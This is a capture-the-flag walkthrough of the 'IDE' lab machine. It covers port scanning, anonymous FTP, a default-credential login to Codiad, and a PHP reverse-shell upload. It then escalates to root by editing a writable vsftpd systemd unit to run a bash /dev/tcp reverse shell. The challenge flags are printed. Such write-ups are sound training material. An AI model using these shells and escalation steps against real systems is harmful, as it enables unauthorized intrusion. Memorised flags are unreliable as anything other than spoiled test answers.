

# IDE

* IP = 10.10.33.250

## Questions/Tasks:

* Firstly, we scan for any open ports:
```bash
nmap -sC -sV $IP
```
### Nmap Initial Scan Results:
```bash
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open     http          Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
264/tcp   filtered bgmp
1164/tcp  filtered qsm-proxy
1183/tcp  filtered llsurfup-http
1600/tcp  filtered issd
4006/tcp  filtered pxc-spvr
9090/tcp  filtered zeus-admin
10180/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* This brings us here when opened in browser:<br>

* Search for directories on the webpage using Gobuster:
```
gobuster -u "http://10.10.164.73/" -w common.txt
```
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2022/06/30 09:58:18 Finished
=====================================================

```
* On the other hand there is *Anonymous* login enabled over FTP server(Which helps to login with username as Anonymous and with no password)...Let's try that<br>

* Contents of the file `-`:
```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```
* At this moment I have no idea what that means😮‍💨😮‍💨, anyways let's keep the statement in mind and save for later use!!
* Let's note `john` and `drac` as usernames for possible brute force on the webpage.
* Since gobuster shows us nothing interesting, we try an all port scan on Nmap( Maybe it can find something on some other port)🤔
### Nmap All Port Scan Results:
* Using `-p-` and `-Pn` switches:
* Since it was taking wayy too long, I decided to stop the whole scan:<br>

* And searched only for ephemeral ports:<br>

* Finally we got **62337** as an open port.
* visit the webpage: http://IP:62337/ which looks like this:<br>

* Used a python [script](./script.py) to login, and got success in first try with Username as **john** and password as **password**
* After logging in:

* Searched for known exploits in <a href="https://www.exploit-db.com/">exploit-db</a> for **Codiad** and found some.
* Used a custom [script](./script.py) to upload a php reverse shell payload file
* Setup a netcat listener and run the script:<br>

* Navigate to */home/drac* we see the following contents:<br>

* Use the found password `Th3dRaCULa1sR3aL` it escalate privileges to **drac**


1. user.txt

**Ans-02930d21a8eb009f6d26361b2d24a466**

* Firstly check for `sudo -l` using the same password:<br>

* So, we can restart the vsFTPd service.
* Check the current status with `systemctl status vsftpd`:<br>

* See carefully that the service loads **/lib/systemd/system/vsftpd.service** as the service file
* Also notice that the file permissions are: `-rw-rw-r--` which means its readable and writable for the *drac* group ID
* User nano/vim/vi to edit the file:
* Modify the `ExecStart` value with `/bin/bash -c 'bash -i >& /dev/tcp/[YOUR IP]/[PORT] 0>&1'`
* Finally it must look like this:<br>

* Now setup another listener in your machine with specified port
* Restart the vsftpd service like this:<br>

* A root connection will be received:<br>


2. root.txt

**Ans-ce258cb16f47f1c66f0b0b77f4e0fb8d**
